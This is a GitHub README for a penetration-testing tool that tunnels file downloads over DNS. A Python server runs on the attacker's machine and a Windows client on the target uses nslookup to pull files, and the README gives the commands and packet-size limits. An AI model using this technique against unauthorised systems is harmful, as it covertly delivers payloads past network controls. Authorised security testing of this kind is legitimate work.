 # Tunneling
DNS tunneling to use during penetration testing

# DNS Download tunneling

## Description 

dns_download is a simple reverse dns download with a windows client and a POSIX compatible server. It allows you to download file using nslookup from your server to the windows client

The client runs on the target Windows machine and the server can run on any platform on the attacker machine.

## Usage

###Running the server

`python dns_download_serv.py`

###Running the client

If you can't specify a custom DNS to query, the maximum size by packet is 3000 (Probably because the size is filtered on the way)

So just run : 

`DNS_Download -Server <server> -Filename <filename>`

Howeover,if you can specify a custom DNS, the maximum size is 45000 (Because given a string with length of n , the base64 length will be 4*(n/3) )

Then you can run : 

`DNS_Download -Server <server> -Filename <filename> -Size 45000 -DNS <dns>` 
